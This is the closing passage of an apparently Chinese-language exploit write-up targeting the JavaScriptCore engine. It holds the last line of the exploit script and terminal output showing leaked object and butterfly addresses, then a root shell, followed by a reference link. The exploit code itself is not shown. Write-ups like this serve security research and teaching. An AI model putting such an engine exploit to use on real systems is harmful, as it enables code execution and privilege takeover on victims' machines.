     stage2.pwn()

#### 运行效果

运行效果如下

    ╰$ ./jsc exp.js
    hit: 2e5e
    Object: 0x7fffae2af690 with butterfly 0x7fe00028c078 (Structure 0x7fffaf6f2a70:[Array, {}, ArrayWithDouble, Proto:0x7fffaf6c80a0, Leaf]), StructureID: 98
    Object: 0x7fffae2af6a0 with butterfly 0x7fe00028c0e8 (Structure 0x7fffaf6f2ae0:[Array, {}, ArrayWithContiguous, Proto:0x7fffaf6c80a0]), StructureID: 99
    Object: 0x7fffae2591f0 with butterfly 0x7fe000280058 (Structure 0x7fffaf670d20:[Array, {prop:100, prop1:101}, ArrayWithDouble, Proto:0x7fffaf6c80a0, Leaf]), StructureID: 317
    7fffae2591f0
    Object: 0x7fffaf6c8380 with butterfly (nil) (Structure 0x7fffaf670e00:[Object, {jscell:0, butterfly:1}, NonArray, Proto:0x7fffaf6b4000, Leaf]), StructureID: 319
    7fffae208000
    7ffff000a500
    7fffb0001000
    # id
    uid=0(root) gid=0(root) groups=0(root)
    #

\#\#参考链接

> https://xz.aliyun.com/t/7694\#toc-2
